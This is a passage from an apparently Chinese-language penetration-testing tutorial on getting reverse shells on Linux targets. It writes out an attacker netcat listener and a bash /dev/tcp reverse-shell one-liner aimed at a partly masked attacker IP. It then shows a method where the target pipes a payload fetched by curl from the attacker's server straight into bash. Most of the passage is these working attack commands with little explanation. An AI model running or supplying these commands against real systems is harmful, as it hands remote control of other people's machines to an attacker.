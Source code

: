**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

执行效果如下：

![image-20210505233302657](images/image-20210505233302657.png)

### Curl配合Bash反弹shell

这里操作也很简单，借助了Linux中的管道。

首先，在攻击者vps的web目录里面创建一个index文件（index.php或index.html），内容如下：

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

并开启2333端口的监听。

然后再目标机上执行如下，即可反弹shell：

```
curl 47.xxx.xxx.72|bash
```
